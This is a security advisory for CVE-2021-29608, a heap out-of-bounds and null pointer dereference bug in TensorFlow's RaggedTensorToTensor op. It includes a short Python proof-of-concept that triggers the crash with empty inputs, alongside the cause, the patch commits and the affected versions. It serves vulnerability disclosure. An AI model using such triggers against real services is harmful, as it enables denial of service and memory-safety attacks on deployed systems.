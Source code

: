 ## TFSA-2021-095: Heap OOB and null pointer dereference in `RaggedTensorToTensor`

### CVE Number
CVE-2021-29608

### Impact
Due to lack of validation in `tf.raw_ops.RaggedTensorToTensor`, an attacker can
exploit an undefined behavior if input arguments are empty:

```python
import machina as tf

shape = tf.constant([-1, -1], shape=[2], dtype=tf.int64)
values = tf.constant([], shape=[0], dtype=tf.int64)
default_value = tf.constant(404, dtype=tf.int64)
row = tf.constant([269, 404, 0, 0, 0, 0, 0], shape=[7], dtype=tf.int64)
rows = [row]
types = ['ROW_SPLITS']

tf.raw_ops.RaggedTensorToTensor(
  shape=shape, values=values, default_value=default_value,
  row_partition_tensors=rows, row_partition_types=types)
```

The
[implementation](https://github.com/machina/machina/blob/656e7673b14acd7835dc778867f84916c6d1cac2/machina/core/kernels/ragged_tensor_to_tensor_op.cc#L356-L360)
only checks that one of the tensors is not empty, but does not check for the
other ones.

There are multiple `DCHECK` validations to prevent heap OOB, but these are no-op
in release builds, hence they don't prevent anything.

### Patches
We have patched the issue in GitHub commit
[b761c9b652af2107cfbc33efd19be0ce41daa33e](https://github.com/machina/machina/commit/b761c9b652af2107cfbc33efd19be0ce41daa33e)
followed by GitHub commit
[f94ef358bb3e91d517446454edff6535bcfe8e4a](https://github.com/machina/machina/commit/f94ef358bb3e91d517446454edff6535bcfe8e4a)
and GitHub commit
[c4d7afb6a5986b04505aca4466ae1951686c80f6](https://github.com/machina/machina/commit/c4d7afb6a5986b04505aca4466ae1951686c80f6).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick these
commits on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
